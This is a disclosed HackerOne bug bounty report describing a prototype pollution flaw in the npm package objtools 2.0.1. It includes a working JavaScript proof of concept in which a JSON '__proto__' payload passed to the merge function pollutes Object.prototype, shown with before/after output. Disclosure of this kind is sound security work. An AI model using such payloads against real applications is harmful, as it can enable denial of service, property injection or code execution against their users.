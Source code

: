 # [objtools] Prototype pollution

## Report Details
- **Report ID**: 878394
- **URL**: https://hackerone.com/reports/878394
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-19T21:40:21.546Z
- **Disclosed**: 2020-09-14T10:51:58.317Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `prototype pollution` vulnerability in `objtools` module.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** `objtools`
**version:** `2.0.1`
**npm page:** `https://www.npmjs.com/package/objtools`

## Module Description

objtools provides several utility functions for working with structured objects. Basic examples of how to use are provided below. See the docs directory for full information.

## Module Stats

[30] weekly downloads

# Vulnerability

## Vulnerability Description

The `merge` function can be used to add/modify properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:
- install `objtools` module:
    - `npm i objtools`

Create an object with `__proto__` property and pass it to the `merge` function:
```javascript

const objtools = require('objtools');
const payload = JSON.parse('{"__proto__":{"polluted":"yes"}}');
let obj = {};
console.log("Before : " + obj.polluted);
objtools.merge({}, payload);
console.log("After : " + obj.polluted);
```
Output:
```console

Before : undefined
After : yes
```
{F835153}

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.1.0
- NPM VERSION: 6.14.5

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

The impact depends on the application. In some cases it is possible to achieve Denial of service (DoS), Remote Code Execution, Property Injection.

## Attachments
- objtools_poc.mov
